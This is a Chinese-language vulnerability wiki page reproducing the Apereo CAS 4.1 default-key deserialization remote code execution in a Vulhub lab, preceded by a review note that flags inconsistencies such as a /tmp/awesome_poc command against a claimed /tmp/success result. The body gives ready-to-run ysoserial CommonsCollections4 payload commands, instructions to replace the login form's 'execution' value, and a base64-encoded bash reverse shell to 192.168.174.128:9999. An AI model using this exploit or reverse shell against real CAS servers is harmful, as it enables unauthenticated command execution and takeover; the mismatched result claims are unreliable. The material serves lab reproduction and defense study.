





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Before4.1.7, lab4.1.5; default keystore and CommonsCollections4 gadget; login steps shouldn't imply authentication prerequisite without validation

代码与实验材料：Tool repository/command and execution parameter workflow; screenshot success claims

来源证据范围：apereo.github.io/2016/04/08/commonsvulndisc and Vulhub attack repository

- **结论使用边界（1）**：Result path inconsistency；依据：touch /tmp/awesome_poc command versus /tmp/success success text。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（2）**：Keystore password conflated with AES key; clarify default bundled keystore；依据：默认密钥changeit。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（3）**：No explicit remediation section, lab-directory link absent。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Apereo CAS 4.1 反序列化命令执行漏洞

## 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

参考链接：

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## 环境搭建

Vulhub执行如下命令启动一个Apereo CAS 4.1.5：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

## 漏洞复现

### 写入文件

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/awesome_poc"
```




然后登录Apereo CAS并抓包（默认用户名/密码为casuser/Mellon），将Body中的`execution`值替换成上面生成的Payload发送：




登录Apereo CAS，touch /tmp/success已成功执行：




### 写入反弹shell

构造反弹shell并进行base64编码

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```




监听端口，成功反弹shell




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
